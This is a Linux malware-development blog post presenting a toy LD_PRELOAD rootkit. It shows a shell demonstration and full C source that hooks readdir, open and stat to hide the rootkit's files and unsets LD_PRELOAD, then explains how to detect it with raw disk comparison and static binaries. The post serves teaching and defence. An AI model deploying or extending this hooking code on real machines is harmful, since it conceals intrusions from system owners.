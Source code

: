 ```yaml
---
layout: post
category: Malware
tags: [hacking, programming, malwaredev]
---
```


If you are not interested in malware development for Linux and have
not read some of my previous blog posts, this blog post may be too
technical for you. You could rather start [here]({% post_url 2023-10-24-a-survey-of-linux-rootkits %})

In this blog post, I want to present a toy `LD_PRELOAD` rootkit.
It works by hijacking the dynamic linker and thus hiding itself from
the system. Later, we will talk about how to detect it.

## Preliminaries
Usually, when an ELF file is executed, first the dynamic linker
resolves the functions imported from other libraries.
When a function such as `open()` is encountered by the linker and not
defined in the binary itself, the linker searches for it in various
places. The order of these places is documented in the man page of
`ld.so` and is not that important in this exposition.

When the first instance of the function is encountered, it is
used. The dynamic linker does not search further. In particular, if
the function exists at multiple places, the first instance is used.

The idea of an `LD_PRELOAD` rootkit is that a malicious library -- the
rootkit -- is placed before the legitimate libraries in the search
order of the dynamic linker. This can be achieved, e.g., by
exporting the full path of the rootkit with the command `export LD_PRELOAD=<full
path to rootkit>`, or by tampering with `/etc/ld.so.conf`.

Then, legitimate function calls are hijacked by the rootkit. The
rootkit can use these to hide its presence. Let me show you an example.

```
[user toykit]$ ls
README.md  toykit.c  toykit.so
[user toykit]$ gcc toykit.c -o toykit.so -fPIC -shared -ldl -D_GNU_SOURCE
[user toykit]$ export LD_PRELOAD=$(pwd)/toykit.so
[user toykit]$ ls
README.md
[user toykit]$ 
[user toykit]$ less toykit.c 
toykit.c: No such file or directory
[user toykit]$ cat toykit.c 
cat: toykit.c: No such file or directory
```

Here, the rootkit called toykit still exists in the directory, but
cannot be seen. Toykit hooks various functions in glibc that are
invoked by `ls`, `less` and `cat`. Internally, it executes the original
functions, looks if its own name is in the output, and when that is
the case it removes its own name and returns the cleaned output.

In our implementation, the files can still be seen by the shell
completion, though that is only the case, because i apparently forgot
to hook some more functions.

When executing `ls` with more debugging output, we can see the search
order of the dynamic linker and that our rootkit is placed first.
In the output below, the dynamic linker searches for the symbol
`_res`, which is not implemented in toykit and hence the search
continues at the other locations.

```
[user toykit]$ LD_DEBUG=symbols ls 2>&1 | head
      2454:	symbol=__vdso_clock_gettime;  lookup in file=linux-vdso.so.1 [0]
      2454:	symbol=__vdso_gettimeofday;  lookup in file=linux-vdso.so.1 [0]
      2454:	symbol=__vdso_time;  lookup in file=linux-vdso.so.1 [0]
      2454:	symbol=__vdso_getcpu;  lookup in file=linux-vdso.so.1 [0]
      2454:	symbol=__vdso_clock_getres;  lookup in file=linux-vdso.so.1 [0]
      2454:	symbol=_res;  lookup in file=ls [0]
      2454:	symbol=_res;  lookup in file=/home/user/toykit/toykit.so [0]  <--- My rootkit is first in the library search order
      2454:	symbol=_res;  lookup in file=/lib64/libselinux.so.1 [0]
      2454:	symbol=_res;  lookup in file=/lib64/libcap.so.2 [0]
      2454:	symbol=_res;  lookup in file=/lib64/libc.so.6 [0]
```

## Source Code

Here is the commented source code of toykit.
In a real rootkits, we could also have some malicious functionality,
such as hiding of network sockets, malicious users, etc.

{% highlight C %}
// gcc toykit.c -o toykit.so -fPIC -shared -ldl -D_GNU_SOURCE (-DDebug)

#include <stdio.h>
#include <dlfcn.h>
#include <string.h>
#include <dirent.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/stat.h>

 
#define HIDE_MAGIC "toykit"

// First and foremost, we remove the LD_PRELOAD to hide the presence
// of toykit. This removes it from env, but not from
// /proc/self/environ
static __attribute__((constructor)) void begin() {
    unsetenv("LD_PRELOAD");
}

// We hook readdir and remove files that start with HIDE_MAGIC
struct dirent *readdir(DIR *dirp) {
    struct dirent *(*orig_readdir)(DIR *dirp);
    orig_readdir = dlsym(RTLD_NEXT, "readdir");
    #ifdef DEBUG
    puts("readdir hooked");
    #endif

    struct dirent *dir;
    while ((dir = orig_readdir(dirp)) != NULL) {
        if(strstr(dir->d_name,HIDE_MAGIC) == 0) break;
    }
    return dir;
}

// We hook open and hide files that start with HIDE_MAGIC
int open(const char *pathname, int flags, mode_t mode) {
    int (*orig_open)(const char *pathname, int flags, mode_t mode);
    orig_open = dlsym(RTLD_NEXT, "open");
    #ifdef DEBUG
    printf("open hooked %s.\n", pathname);
    #endif

    if(strstr(pathname,HIDE_MAGIC) != NULL) {
      errno = ENOENT;
      return -1;
    }
    return orig_open(pathname, flags, mode);
}

int open64(const char *pathname, int flags, mode_t mode) {
    int (*orig_open64)(const char *pathname, int flags, mode_t mode);
    orig_open64 = dlsym(RTLD_NEXT, "open64");
    #ifdef DEBUG
    printf("open64 hooked %s.\n", pathname);
    #endif

    if(strstr(pathname,HIDE_MAGIC) != NULL) {
      errno = ENOENT;
      return -1;
    }
    return orig_open64(pathname, flags, mode);
}

// We hook stat and hide files that start with HIDE_MAGIC
// This is e.g., used by less
int stat(const char *pathname, struct stat *statbuf) {
    int (*orig_stat)(const char *pathname, struct stat *statbuf);
    orig_stat = dlsym(RTLD_NEXT, "stat");
    #ifdef DEBUG
    printf("stat hooked %s.\n", pathname);
    #endif

    if(strstr(pathname,HIDE_MAGIC) != NULL) {
      errno = ENOENT;
      return -1;
    }
    return orig_stat(pathname, statbuf);
}

int stat64(const char *pathname, struct stat64 *statbuf) {
    int (*orig_stat64)(const char *pathname, struct stat64 *statbuf);
    orig_stat64 = dlsym(RTLD_NEXT, "stat64");
    #ifdef DEBUG
    printf("stat64 hooked %s.\n", pathname);
    #endif

    if(strstr(pathname,HIDE_MAGIC) != NULL) {
      errno = ENOENT;
      return -1;
    }
    return orig_stat64(pathname, statbuf);
}
{% endhighlight %}

## Detection
Detecting this approach is fairly simple, but let us first discuss
approaches that will not work.

As shown above, we could
check the library search path order of the dynamic linker for changes,
e.g., suspicious entries in `/etc/ld.so.config`). This works in our
toy rootkit, however, when the rootkit is
even better, these investigations may not yield results, as they will
use the hooked functions themselves.
As an example, in the toy rootkit we removed the variable
`LD_PRELOAD` that indicates presence of the rootkit. We could have
taken this even further.

What will work is comparing the content of the disk (obtained using
`dd`) with the file system itself. If there are files on the disk that
are not shown in the file system, then maybe an `LD_PRELOAD` rootkit is
hiding them. Note, that this comparison should not be done on
the infected machine itself.

A second approach is using statically linked binaries. When executing
a statically linked binary, there is no dynamic loader that can be
hooked. The most common approach is probably using `busybox`. Hence,
shell commands from within busybox cannot be hijacked by the rootkit
and hence can be used for such a forensic analysis.
